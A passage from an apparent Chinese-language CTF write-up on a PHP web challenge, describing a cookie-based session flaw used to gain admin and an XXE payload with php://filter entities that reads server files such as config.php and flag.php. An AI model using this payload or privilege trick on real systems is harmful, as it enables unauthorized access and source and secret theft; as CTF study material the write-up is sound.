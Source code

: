 最后decrypt的结果都是admin。接着我们又发现login页面处一个有趣的session设置逻辑：

```php
if (isset($_COOKIE['username']) &&decrypt($_COOKIE['username'])!=="") {
$_SESSION['username'] = decrypt($_COOKIE['username']);
header("Location: /index.php");
exit();
}
```

也就是说cookie中username的value不空时，将session的username设置为对cookie中username decrypt后的值。也就是说我们先从login.php登陆我们admin%00...的账号,然后再访问一次login.php,这样子我们就能获取管理员权限了。

然后又到了上传的页面，这次上传之后，发现php页面没有解析，尝试了以下几种姿势都没有成功：

>1..htaccess增加解析类型（看了下phpinfo，貌似rewrite没开QAQ）；

>2.zip解压时的symbol link的问题，以前facebook就曾经有这样的洞，但是很可惜也没成功；

最后在v师傅的指点下，发现了XXE，顺便看了下libxml的版本，我去，这是有多老的so。。。

最终构造的一个xml文件如下所示：

><!DOCTYPE ANY[
><!ENTITY xxe1 SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/config.php">
><!ENTITY xxe2 SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/login.php">
><!ENTITY xxe3 SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/logout.php">
><!ENTITY xxe4 SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/manager.php">
><!ENTITY xxe5 SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/register.php">
><!ENTITY xxe6 SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/phpinfo.php">
><!ENTITY xxe7 SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">
>]>

><navLabel><text>&xxe1;||||;&xxe2;||||;&xxe3;||||;&xxe4;||||;&xxe5;||||;&xxe6;||||;&xxe7;||||;</text>></navLabel>

读取到你想要的文件的源码（顺便又把源码脱了一遍*0*）。

最终的返回大概是这样子的：

 ![5](jpg\5.jpg)
